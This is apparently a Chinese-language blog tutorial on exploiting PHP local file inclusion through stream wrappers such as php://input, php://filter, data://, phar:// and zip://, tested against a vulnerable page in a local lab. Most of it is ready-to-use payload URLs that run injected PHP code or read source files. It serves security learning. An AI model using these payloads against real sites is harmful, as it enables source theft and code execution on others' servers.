 ```yaml
---
title: php 文件包含伪协议利用
date: 2019-01-03 15:34:47
tags: [php,文件包含]
categories:
  - [php]
  - [整理]
  - [文件包含]
---
```


# php 文件包含伪协议利用

---

## 重要配置

PHP.ini：

allow_url_fopen ：on  默认开启  该选项为on便是激活了 URL 形式的 fopen 封装协议使得可以访问 URL 对象文件等。

allow_url_include：off  默认关闭，该选项为on便是允许 包含URL 对象文件等。

## PHP 中的封装协议(伪协议)

```
http://cn2.php.net/manual/zh/wrappers.php

file:///var/www/html 访问本地文件系统

ftp://<login>:<password>@<ftpserveraddress> 访问 FTP(s) URLs

data:// 数据流

http:// — 访问 HTTP(s) URLs

ftp:// — 访问 FTP(s) URLs

php:// — 访问各个输入/输出流

zlib:// — 压缩流

data:// — Data (RFC 2397)

glob:// — 查找匹配的文件路径模式

phar:// — PHP Archive

ssh2:// — Secure Shell 2

rar:// — RAR

ogg:// — Audio streams

expect:// — 处理交互式的流
```

## 利用file://协议

利用条件：双off的情况下也可以正常使用

file:// [文件的绝对路径和文件名]

```
includes.php?file=file://C:\phpStudy\PHPTutorial\WWW\upload-labs\upload\phpinfo.txt
```

![000](/img/FileContains/000.png)

## 利用php流input

*利用条件：*

1、allow_url_include = On。

2、对 allow_url_fopen 不做要求。

>/includes.php?file=php://input
>
>POST：`<?php phpinfo();?>`

![001](/img/FileContains/001.png)



## 利用php流filter

利用条件：双off的情况下也可以正常使用

通过指定末尾的文件，可以读取经 base64 加密后的文件源码。（读取敏感文件）

```php+HTML
?file=php://filter/convert.base64-encode/resource=includes.php
//includes.php是读取的文件
```

![002](/img/FileContains/002.png)

![003](/img/FileContains/003.png)

## 利用 data URIs

*利用条件：*

1、php 版本大于等于 php5.2

2、allow_url_fopen = On

3、allow_url_include = On

```shell
file=data:text/plain,<?php phpinfo();?>
file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
//%2b是+,需要使用url编码
```

![004](/img/FileContains/004.png)

## 利用phar

*利用条件：*

1、php 版本大于等于 php5.3.0

假设有个文件 phpinfo.txt，其内容为 `<?php phpinfo(); ?>`，打包成 zip 压缩包，如下：

> 路径：test.zip/test/phpinfo.txt

![004_1](/img/FileContains/004_1.png)

> ```shell
> # 相对路径
> includes.php?file=phar://upload/test.zip/test/phpinfo.txt
> 
> # 绝对路径
> includes.php?file=phar://C:/phpStudy/PHPTutorial/WWW/upload-labs/upload/test.zip/test/phpinfo.txt
> ```

![005](/img/FileContains/005.png)

![006](/img/FileContains/006.png)

## 利用zip://, bzip2://, zlib://协议

*利用条件：*

1、zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件。

### zip://协议

**使用方法：**

zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

> 使用 zip 协议，需要指定绝对路径，同时将 `#` 编码为 `%23`，之后填上压缩包内的文件。

```shell
# 绝对路径
includes.php?file=zip://C:\phpStudy\PHPTutorial\WWW\upload-labs\upload\test.zip%23phpinfo.txt

# 相对路径
includes.php?file=zip://upload/test.zip%23phpinfo.txt
```

![007](/img/FileContains/007.png)

![008](/img/FileContains/008.png)

### bzip2://协议

**使用方法：**

compress.bzip2://file.bz2

利用linux压缩命令

```shell
#bzip2 压缩
bzip2 phpinfo
#生成phpinfo.bz2,上传到目录
```



```
includes.php?file=compress.bzip2://./upload/phpinfo.bz2
```
![010](/img/FileContains/010.png)

![011](/img/FileContains/011.png)

### zlib://协议

**使用方法：**

compress.zlib://file.gz

```shell
# 绝对路径
includes.php?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/upload-labs/upload/phpinfo.txt

# 相对路径
includes.php?file=compress.zlib://./upload/phpinfo.txt
```

![012](/img/FileContains/012.png)

![013](/img/FileContains/013.png)